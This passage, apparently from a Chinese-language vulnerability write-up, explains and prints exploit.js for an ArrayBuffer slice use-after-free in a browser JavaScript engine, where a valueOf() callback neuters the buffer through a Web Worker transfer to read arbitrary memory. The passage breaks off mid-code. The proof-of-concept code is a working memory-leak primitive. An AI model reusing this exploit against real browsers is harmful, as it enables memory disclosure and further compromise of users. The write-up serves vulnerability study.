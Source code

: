 ```

```

然后是exploit.js的部分，包含了攻击的逻辑。当点击“Transfer/neuter ArrayBuffer”按钮的时候，leak_dword(0xffff)函数被调用。leak_dword()函数接受一个内存地址作为参数，然后利用这个漏洞在这个地址读取4bytes内容。这里读取0xffff地址的内容，出发了一个访问异常，来做为演示。

最有趣的部分是Trigger类的代码，它的构造函数接受对象的end_offset作为一个ArrayBuffer的实例当做参数。这个类也实现了valueOf()函数，其被原生函数Js::ArrayBuffer::EntrySlice()调用到的时候，即把ArrayBuffer的从属关系交给一个新的Web Worker，从而实现结扎ArrayBuffer，最后返回对象的end_offset。

同样注意下leak_dword()把一个Trigger类的实例当做第二个参数调用漏洞函数slice()。

```
(function () {
    var the_worker = null; // Will contain a reference to a Web Worker "thread".

    function initialize() {
        document.getElementById('workersButton').addEventListener('click', handle_workersButton, false);
    }

    document.addEventListener("DOMContentLoaded", initialize, false);


    function Trigger(end_offset, arrbuf){
        this.end_offset = end_offset;
        this.arrbuf = arrbuf;
    }

    /* This method gets called from the middle of the Js::ArrayBuffer::EntrySlice() native function */
    Trigger.prototype.valueOf = function() {
        this.neuter_arraybuffer();
        return this.end_offset;
    }

    Trigger.prototype.neuter_arraybuffer = function() {
      if (the_worker) {
        the_worker.terminate();
        the_worker = null; // Allow the garbage collector to clean up the Web Worker object.           
      }

      the_worker = new Worker('the_worker.js');

      the_worker.onmessage = function(evt) {
        if (evt.data.msg){
            document.getElementById('outputBoxWorkers').innerHTML = evt.data.msg;
        }

      }
      /* Neuter the ArrayBuffer by transferring its ownership to a new Web Worker */
      the_worker.postMessage(this.arrbuf, [this.arrbuf]);

    }

    /* Returns a 32-bit integer with the leaked dword value */
    function leak_dword(address){
        var arrbuf = new ArrayBuffer(address + 0x10);
        var trigger = new Trigger(address + 4, arrbuf); 
        var kslice = arrbuf.slice(address, trigger);
        return new DataView(kslice).getUint32(0, true);
    }


    function handle_workersButton(){
```